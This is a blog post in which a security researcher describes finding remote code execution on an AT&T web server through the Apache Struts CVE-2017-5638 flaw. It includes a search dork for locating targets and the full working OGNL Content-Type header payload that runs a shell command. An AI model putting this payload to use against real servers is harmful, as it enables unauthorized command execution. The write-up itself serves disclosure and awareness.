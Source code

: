 ```yaml
---
layout: post
title: "Remote Code Execution in AT&T"
author: Corben Leo
---
```

I was pentesting AT&T to see if I could find a vulnerability (as one does), around 4-5 days after CVE-2017-5638 was released.   Apache Struts 2 2.3.x before 2.3.32 and 2.5.x before 2.5.10.1 is vulnerable to **Server-Side Template Injection**, which allows attackers to execute commands on any vulnerable server. Basically, the file upload interceptor for these vulnerable versions "attempted to resolve error messages using a potentially dangerous function that evaluates OGNL." It's not actually a vulnerability within the Jakarta request wrapper, but rather in the file upload interceptor. <br><br>
I instantly was curious about this vulnerability and went to see if AT&T ran Struts, so I started off with a simple Google dork: `site:att.com + ext:action` and *A LOT* of results came up! I grabbed a random one:  `https://www.att.com/tobrcontract/tobrinfotc.action`<br><br>
I opened up Burp Suite, intercepted the request and sent it to the Repeater. I added this payload in the content-type header to see if it was vulnerable:
```
Content-Type:%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).! (#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='uname -a').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```
I sent the request and to my surprise, the command executed!<br><br>
![Code Execution](/images/att-rce.png "RCE")
<br><br>
I was absolutely astounded that after a week of this 0day being released, that such a big company would still be vulnerable WHEN they had a security team and bug bounty program! I also identified a subdomain that was vulnerable.<br> All goes to show that if you are WORKING in information security, it would be smart to pay attention to the community and to the news so you can protect yourself.<br><br>
Regardless, that's how I could've pwned AT&T, which would have affected their hundreds millions of customers (<font color="#E22A3C">~147 million</font> wireless customers in the U.S. and Mexico).
<br><br>
Thanks for reading!<br><br>
**Corben Leo**
- <a class="link" href="https://twitter.com/hacker_"  target="_blank" rel="noopener noreferrer">https://twitter.com/hacker_</a>
- <a class="link" href="https://hackerone.com/cdl" target="_blank" rel="noopener noreferrer">https://hackerone.com/cdl</a>
- <a class="link" href="https://bugcrowd.com/c" target="_blank" rel="noopener noreferrer">https://bugcrowd.com/c</a>
- <a class="link" href="https://github.com/C0RB3N"  target="_blank" rel="noopener noreferrer">https://github.com/C0RB3N</a>


